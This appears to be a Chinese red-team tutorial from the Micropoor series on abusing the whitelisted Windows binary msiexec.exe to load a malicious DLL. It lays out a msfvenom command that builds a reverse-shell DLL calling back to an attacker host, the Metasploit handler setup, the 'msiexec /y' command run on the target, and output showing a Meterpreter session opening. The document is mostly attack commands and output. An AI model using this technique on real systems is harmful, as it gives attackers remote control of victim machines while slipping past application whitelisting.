 **注：**请多喝点热水或者凉白开，身体特别重要。

本季补充本地DLL加载  
**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：
**注：x64 payload**

```bash
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f dll > Micropoor_rev_x64_53.dll
```

### 配置攻击机msf：
**注：x64 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/x64/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/62736d164fb64b1462810cfea7bd472c.jpg)

### 靶机执行：
```bash
msiexec /y C:\Users\John\Desktop\Micropoor_rev_x64_dll.dll
```
![](media/b8cbb9334f2281d8cd8f70052c2a02a9.jpg)
```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (206403 bytes) to 192.168.1.5

[*] Meterpreter session 26 opened (192.168.1.4:53 ‐> 192.168.1.5:11543)
at 2019‐01‐20 09:45:51 ‐0500

meterpreter > getuid

Server username: John‐PC\John

meterpreter > getpid

Current pid: 7672

meterpreter > 
```

![](media/84fb0dd629aae878607221e385dfff34.jpg)

>   Micropoor
